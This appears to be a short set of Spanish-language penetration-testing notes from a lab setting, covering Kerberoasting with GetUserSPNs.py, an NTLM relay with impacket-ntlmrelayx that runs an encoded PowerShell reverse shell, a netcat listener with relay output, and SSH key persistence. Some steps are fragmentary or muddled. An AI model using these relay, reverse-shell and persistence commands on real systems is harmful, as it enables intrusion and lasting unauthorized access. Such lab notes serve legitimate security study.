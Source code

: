 Kerberoasting
```sh
Se enumera si es posible connectarse

GetUserSPNs.py domain.htb/USER -dc-ip IP 

Este permite solitiar el ST

GetUserSPNs.py domain.htb/USER -dc-ip IP -request
```

## Net-NTLMv2 Relay

La base64 es un rev shell 
```sh
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."
```
Abrimos el puerto en escucha 
```sh
nc -nvlp 8080
```
Nos conectamos a la maquina
```cmd
nc 192.168.50.211 5555 
C:\Windows\system32>whoami
whoami
files01\files02admin
C:\Windows\system32>dir \\192.168.119.2\test
[*] SMBD-Thread-4: Received connection from 192.168.50.211, attacking target 
smb://192.168.50.212
[*] Authenticating against smb://192.168.50.212 as FILES01/FILES02ADMIN SUCCEED
[*] SMBD-Thread-6: Connection from 192.168.50.211 controlled, but there are no more 
targets left!
...
[*] Executed specified command on host: 192.168.50.212
```
Ya con esto deberíamos ser capaces de obtener root en la maquina

## Active directory



# Persistencia
```sh
nano /etc/ssh/sshd_config
Change port 22 into 2222 and save the file. <Al hacer nmap al host el 22 cambia a 2222>
Then restart ssh

En la maquina local:

'sh-keygen'
'cd .ssh'
'ls'
'cat id_rsa.pub > authorized_keys'
'nano /etc/ssh/sshd_config'
Change passwordauthentication no

```
